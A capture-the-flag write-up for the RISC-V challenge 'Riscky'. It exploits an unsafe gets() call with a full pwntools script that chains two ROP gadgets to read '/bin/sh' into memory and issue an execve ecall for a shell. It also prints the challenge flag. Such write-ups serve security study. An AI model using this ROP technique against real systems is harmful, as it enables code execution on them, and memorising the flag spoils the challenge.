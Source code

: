 # Riscky

## Challenge

We are given a 64-bit, statically-linked RISC-V binary.

## Solution

There is an unsafe call to `gets()` which we can use to overflow the stack buffer and overwrite the return address.

The challenge comes from the fact that many tools don't work on RISC-V, such as ROPGadget.

RISC-V uses the RA register to store return addresses.
This makes it more difficult to chain ROP gadgets as we all need gadgets to set RA.

In our case, we will use 2 gadgets to execute jumps.
One gadget will set the saved registers and return into the next gadget, which will use the saved registers to set up RA and jump to our target function.
We can use this to read `"/bin/sh"` into data at a known address.

Next, we return back into our ropchain, where set up an ecall to spawn a shell using the stored string.

## Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = ELF('riscky')
context.update(arch="riscv", os="linux", bits = 64, endianness = 'little')

host = args.HOST or 'challenge.nahamcon.com'
port = int(args.PORT or 32267)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return process(['qemu-riscv64', '-g', '1337', exe.path] + argv, *a, **kw)
    else:
        return process(['qemu-riscv64', exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

"""
   1357a:   70ea                    ld  ra,184(sp)
   1357c:   744a                    ld  s0,176(sp)
   1357e:   74aa                    ld  s1,168(sp)
   13580:   790a                    ld  s2,160(sp)   
   13582:   69ea                    ld  s3,152(sp)
   13584:   6a4a                    ld  s4,144(sp)
   13586:   6aaa                    ld  s5,136(sp)
   13588:   6b0a                    ld  s6,128(sp)  
   1358a:   7c46                    ld  s8,112(sp)
   1358c:   7ca6                    ld  s9,104(sp)
   1358e:   7d06                    ld  s10,96(sp)
   13590:   6de6                    ld  s11,88(sp)
   13592:   855e                    mv  a0,s7
   13594:   7be6                    ld  s7,120(sp)
   13596:   6129                    addi    sp,sp,192
   13598:   8082                    ret
"""

"""
   2a4bc:	78a2                	ld	a7,40(sp)
   2a4be:	6802                	ld	a6,0(sp)
   2a4c0:	75e2                	ld	a1,56(sp)
   2a4c2:	7542                	ld	a0,48(sp)
   2a4c4:	70ea                	ld	ra,184(sp)
   2a4c6:	74aa                	ld	s1,168(sp)
   2a4c8:	790a                	ld	s2,160(sp)
   2a4ca:	69ea                	ld	s3,152(sp)
   2a4cc:	6a4a                	ld	s4,144(sp)
   2a4ce:	6aaa                	ld	s5,136(sp)
   2a4d0:	7be6                	ld	s7,120(sp)
   2a4d2:	7c46                	ld	s8,112(sp)
   2a4d4:	7d06                	ld	s10,96(sp)
   2a4d6:	6de6                	ld	s11,88(sp)
   2a4d8:	87da                	mv	a5,s6
   2a4da:	8366                	mv	t1,s9
   2a4dc:	6b0a                	ld	s6,128(sp)
   2a4de:	7ca6                	ld	s9,104(sp)
   2a4e0:	4701                	li	a4,0
   2a4e2:	4681                	li	a3,0
   2a4e4:	4601                	li	a2,0
   2a4e6:	6129                	addi	sp,sp,192
   2a4e8:	8302                	jr	t1
"""

"""
   10446:   00000073            ecall
"""

setsaved_gadget = 0x1357a
setargs_gadget = 0x2a4bc
ecall = 0x10446

io = start()

ropchain = flat([
        setsaved_gadget,
        flat({
            184: setargs_gadget,
            104: exe.sym['gets'],
        }, length=192, filler=b'\0'),
        flat({
            48: exe.sym['data_start'],
            184: setsaved_gadget,
        }, length=192, filler=b'\0'),
        flat({
            184: setargs_gadget,
            104: ecall,
        }, length=192, filler=b'\0'),
        flat({
            40: 221,
            56: 0,
            48: exe.sym['data_start'],
        }, length=192, filler=b'\0'),
    ])

[print(hex(unpack(ropchain[i:i+8]))[2:]) for i in range(0, len(ropchain), 8)]

io.sendlineafter(b"> ", flat({ 512: ropchain }))
io.sendline(b"/bin/sh")

io.interactive()
```

## Flag

```
flag{834e1b43c9cdfab13d9352fc949cec7b}
```

